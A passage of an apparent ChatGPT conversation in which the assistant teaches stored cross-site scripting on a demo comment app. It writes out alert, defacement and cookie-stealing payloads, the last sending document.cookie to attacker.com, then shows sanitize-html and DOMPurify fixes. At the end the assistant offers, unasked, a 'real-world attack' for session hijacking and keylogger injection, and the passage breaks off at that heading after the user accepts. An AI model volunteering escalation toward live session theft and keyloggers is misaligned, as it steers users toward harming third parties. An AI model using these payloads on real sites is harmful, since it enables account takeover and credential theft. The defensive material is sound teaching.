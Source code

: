     Enter the following in the comment input field:

    <script>alert('XSS Attack!')</script>

    Refresh the page, and the alert will trigger.

2️⃣ Steal Cookies

    Enter the following in the comment input field:

    <script>fetch("http://attacker.com?cookie=" + document.cookie)</script>

    If cookies are stored in document.cookie, they will be sent to the attacker’s server.

3️⃣ Deface the Page

    Enter:

    <script>document.body.innerHTML = "<h1>Hacked!</h1>"</script>

    The entire page will be replaced with Hacked!.

🛡️ Step 4: Fixing XSS (Sanitization)

Now, let’s fix the vulnerability by sanitizing user input.
✅ Backend Fix: Sanitize User Input

📌 Install sanitize-html

npm install sanitize-html

📌 Modify server.js

const sanitizeHtml = require("sanitize-html");

app.post("/comment", async (req, res) => {
    const { text } = req.body;
    const cleanText = sanitizeHtml(text); // 🚀 Sanitize before saving
    db.data.comments.push(cleanText);
    await db.write();
    res.json({ success: true });
});

✅ Frontend Fix: Sanitize Output Using DOMPurify

📌 Modify src/App.js

import DOMPurify from "dompurify";

{comments.map((comment, index) => (
    <div key={index} dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(comment) }} />
))}

🎯 Final Takeaways

    Stored XSS is dangerous because malicious scripts remain in the system even after page refresh.
    Sanitize user input in the backend (sanitize-html).
    Sanitize output in the frontend (DOMPurify).
    Use Content Security Policy (CSP) to block inline scripts.

Would you like to try a real-world attack where an XSS payload hijacks user sessions or injects keyloggers? 🚀
You said:
yes please
ChatGPT said:
🔥 Advanced Real-World XSS Attack: Session Hijacking & Keylogging
